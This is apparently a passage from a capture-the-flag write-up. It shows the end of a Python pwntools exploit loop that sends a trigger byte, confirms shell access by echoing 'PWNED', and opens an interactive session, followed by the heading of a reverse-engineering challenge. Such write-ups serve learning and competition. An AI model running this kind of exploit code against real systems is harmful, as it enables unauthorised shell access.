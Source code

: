 ```python
    try:
        time.sleep(0.1)
        log.info('input 5: getshell')
        p.send(b'\x00')

        time.sleep(0.1)
        p.sendline(b'echo PWNED')
        p.recvuntil(b'PWNED')
        
        break
    except EOFError:
        p.close()

p.interactive()
```

## rev/Trust Me!
